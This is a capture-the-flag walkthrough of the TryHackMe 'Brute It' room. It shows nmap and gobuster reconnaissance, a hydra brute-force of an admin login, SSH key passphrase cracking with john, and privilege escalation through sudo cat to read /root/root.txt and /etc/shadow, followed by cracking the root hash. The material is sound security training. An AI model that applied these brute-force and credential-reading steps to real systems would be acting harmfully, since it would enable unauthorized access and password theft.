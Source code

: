 ```yaml
---
title: THM{Brute It}
author: Anugrah SR
date: 2020-11-07 02:00:00 +0800
categories: [Boot2root,Tryhackme]
tags: [Brute, tryhackme, ssh, nmap, sudo,gobuster, john, linux]
math: true
---
```

# Brute It
## About The Room
*Learn how to brute, hash cracking and escalate privileges in this box!*<br>
* Url: https://tryhackme.com/room/bruteit
* Creator: [ReddyyZ](https://tryhackme.com/p/ReddyyZ)

## Reconnaissance
### Nmap scan
```bash
nmap -sC -sV -T4 10.10.244.141

Starting Nmap 7.91 ( https://nmap.org ) at 2020-11-06 14:38 EST
Nmap scan report for 10.10.244.141
Host is up (0.17s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 4b:0e:bf:14:fa:54:b3:5c:44:15:ed:b2:5d:a0:ac:8f (RSA)
|   256 d0:3a:81:55:13:5e:87:0c:e8:52:1e:cf:44:e0:3a:54 (ECDSA)
|_  256 da:ce:79:e0:45:eb:17:25:ef:62:ac:98:f0:cf:bb:04 (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Apache2 Ubuntu Default Page: It works
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 15.01 seconds

```
We have identified two ports
* 22 ssh
* 80 http

### Gobuster
```bash
gobuster dir -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -u http://10.10.244.141  
===============================================================
Gobuster v3.1.0
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.10.244.141
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.1.0
[+] Timeout:                 10s
===============================================================
2020/11/06 14:35:49 Starting gobuster in directory enumeration mode
===============================================================
/admin                (Status: 301) [Size: 314] [--> http://10.10.244.141/admin/]
```
### HTTP
http://10.10.244.141/admin/ is a admin panel
![admin](https://imgur.com/PlNWCcZl.png)

`Looking for username?
Did you checked the source code!`

![source code](https://imgur.com/HJLJuc9l.png)
```html
 <!-- Hey john, if you do not remember, the username is admin -->
```
Bingo! username is `admin`

### Hydra
Brute-forcing admin panel form using hydra with username admin
```bash
hydra -l admin -P /usr/share/wordlists/rockyou.txt 10.10.244.141 http-post-form "/admin/index.php:user=^USER^&pass=^PASS^:Username or password invalid" -f
```
Now you have the password for the admin panel! let's see what's inside?
![rsa key](https://imgur.com/vxTZKSul.png)
There is also a web flag like THM{xxxxxxxxxxxxxxxxxx}

### RSA private key
Save the rsa file to your local system
#### John
With John, we can crack not only simple password hashes but also SSH Keys
`/usr/share/john/ssh2john.py id_rsa > id_rsa.hashes`

Let's use john and rockyou.txt to try and crack the SSH Key.
```bash
john id_rsa.hash -wordlist=rockyou.txt
Using default input encoding: UTF-8
Loaded 1 password hash (SSH [RSA/DSA/EC/OPENSSH (SSH private keys) 32/64])
Cost 1 (KDF/cipher [0=MD5/AES 1=MD5/3DES 2=Bcrypt/AES]) is 0 for all loaded hashes
Cost 2 (iteration count) is 1 for all loaded hashes
Will run 4 OpenMP threads
Note: This format may emit false positives, so it will keep trying even after
finding a possible candidate.
Press 'q' or Ctrl-C to abort, almost any other key for status
XXXXXXXXXX       (id_rsa)
Warning: Only 2 candidates left, minimum 4 needed for performance.
1g 0:00:00:07 DONE (2020-11-06 14:56) 0.1338g/s 1919Kp/s 1919Kc/s 1919KC/sa6_123..*7¡Vamos!
Session completed
```
## Gaining Shell
### SSH and User flag
before using ssh to connect don't forget to change permission of rsa key
`chmod 400 id_rsa`

Now we are ready to pwn the box
`ssh john@10.10.244.141 -i "id_rsa"`
User flag
```bash
john@bruteit:~$ cat user.txt
THM{XXXXXXXXXXXXXXXXXXXXXX}
```
## Privilege escalation
### Root flag
```bash
john@bruteit:~$ sudo -l
Matching Defaults entries for john on bruteit:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User john may run the following commands on bruteit:
    (root) NOPASSWD: /bin/cat
```
*If the binary is allowed to run as superuser by `sudo`, it does not drop the elevated privileges and may be used to access the file system, escalate or maintain privileged access.*
```bash
    LFILE=file_to_read
    sudo cat "$LFILE"
```
```bash
john@bruteit:~$ LFILE=/root/root.txt
john@bruteit:~$ sudo cat "$LFILE"
THM{XXXXXXXXXXXX}
```
We are asked to find root's password?<br>
Read shadow file and crack the password of Root

```bash
john@bruteit:~$ LFILE=/etc/shadow
john@bruteit:~$ sudo cat "$LFILE"
root:$6$zdk0.jUm$Vya24cGzM1duJkwM5b17Q205xDJ47LOAg/OpZvJ1gKbLF8PJBdKJA4a6M.JYPUTAaWu4infDjI88U9yUXEVgL.:18490:0:99999:7:::
daemon:*:18295:0:99999:7:::
bin:*:18295:0:99999:7:::
sys:*:18295:0:99999:7:::
sync:*:18295:0:99999:7:::
games:*:18295:0:99999:7:::
man:*:18295:0:99999:7:::
lp:*:18295:0:99999:7:::
...
```
#### John to crack admin password
```bash
echo "root:$6$zdk0.jUm$Vya24cGzM1duJkwM5b17Q205xDJ47LOAg/OpZvJ1gKbLF8PJBdKJA4a6M.JYPUTAaWu4infDjI88U9yUXEVgL.:18490:0:99999:7:::" >root.txt
```
```bash
john root.txt                                                       
Using default input encoding: UTF-8
Loaded 1 password hash (sha512crypt, crypt(3) $6$ [SHA512 256/256 AVX2 4x])
Cost 1 (iteration count) is 5000 for all loaded hashes
Will run 4 OpenMP threads
Proceeding with single, rules:Single
Press 'q' or Ctrl-C to abort, almost any other key for status
Warning: Only 14 candidates buffered for the current salt, minimum 16 needed for performance.
Warning: Only 10 candidates buffered for the current salt, minimum 16 needed for performance.
Warning: Only 15 candidates buffered for the current salt, minimum 16 needed for performance.
Almost done: Processing the remaining buffered candidate passwords, if any.
Warning: Only 8 candidates buffered for the current salt, minimum 16 needed for performance.
Proceeding with wordlist:/usr/share/john/password.lst, rules:Wordlist
xxxxxxx         (root)
1g 0:00:00:02 DONE 2/3 (2020-11-06 15:24) 0.4587g/s 1588p/s 1588c/s 1588C/s 123456..crawford
Use the "--show" option to display all of the cracked passwords reliably
Session completed
```
Thanks for reading this. Good Luck.
